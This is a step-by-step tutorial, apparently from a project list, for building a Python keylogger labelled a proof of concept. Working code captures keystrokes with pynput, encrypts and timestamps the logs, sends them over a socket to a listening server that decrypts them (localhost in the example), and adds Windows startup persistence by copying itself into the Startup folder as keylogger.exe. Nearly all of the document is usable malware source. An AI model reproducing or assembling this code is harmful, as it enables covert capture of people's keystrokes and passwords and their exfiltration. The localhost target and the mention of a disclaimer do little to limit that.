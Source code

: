 🔐 3. Keylogger with Encrypted Data Exfiltration (PoC)
📌 Objective
Create a Python-based keylogger that:

Captures keystrokes

Encrypts logs using cryptography.fernet

Stores them with a timestamp

Simulates data exfiltration to a local server

Adds startup persistence and a kill switch

🛠️ Tools & Libraries
pynput: For capturing keystrokes

cryptography: For data encryption

base64: For encoding/decoding

os, datetime, threading, socket, sys: Built-in modules

🧭 Step-by-Step Guide
✅ a. Capture Keystrokes using pynput
python
Copy
Edit
from pynput import keyboard

keystrokes = []

def on_press(key):
    try:
        keystrokes.append(f"{key.char}")
    except AttributeError:
        keystrokes.append(f"[{key}]")

listener = keyboard.Listener(on_press=on_press)
listener.start()
✅ b. Encrypt Data using cryptography.fernet
python
Copy
Edit
from cryptography.fernet import Fernet

# Generate key (do this once and store securely)
# key = Fernet.generate_key()
key = b'my-static-key12345678901234567890=='  # example (use your generated one)
cipher = Fernet(key)

def encrypt_log(log):
    return cipher.encrypt(log.encode())
✅ c. Store Logs Locally with Timestamps
python
Copy
Edit
from datetime import datetime

def save_encrypted_log(data):
    timestamp = datetime.now().strftime("%Y-%m-%d_%H-%M-%S")
    encrypted_data = encrypt_log("".join(data))
    with open(f"logs/{timestamp}.log", "wb") as f:
        f.write(encrypted_data)
✅ d. Simulate Sending to a Remote Server (localhost)
Client:

python
Copy
Edit
import socket

def send_to_server(data):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('localhost', 9999))
    s.send(encrypt_log(data))
    s.close()
Server (run separately):

python
Copy
Edit
import socket
from cryptography.fernet import Fernet

key = b'my-static-key12345678901234567890=='  # same as client
cipher = Fernet(key)

server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
server.bind(('localhost', 9999))
server.listen(5)
print("[*] Listening on port 9999...")

while True:
    client, addr = server.accept()
    data = client.recv(4096)
    print(f"[+] Encrypted: {data}")
    print(f"[+] Decrypted: {cipher.decrypt(data).decode()}")
    client.close()
✅ e. Add Startup Persistence & Kill Switch (Optional & OS-Specific)
Startup Persistence (Windows):

python
Copy
Edit
import os
import shutil

def add_to_startup():
    file_path = os.path.realpath(__file__)
    target = os.path.expandvars(r'%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\keylogger.exe')
    shutil.copy(file_path, target)
Kill Switch Example:

python
Copy
Edit
def check_kill_switch():
    return os.path.exists("STOP_LOGGING.txt")
📁 Folder Structure
arduino
Copy
Edit
keylogger/
│
├── keylogger.py
├── logs/
└── STOP_LOGGING.txt  # Optional kill switch
✅ Deliverables
keylogger.py: Full Python script with all modules

logs/: Folder containing encrypted logs

key: Static Fernet key (for test use only)

README.md: Ethical use disclaimer
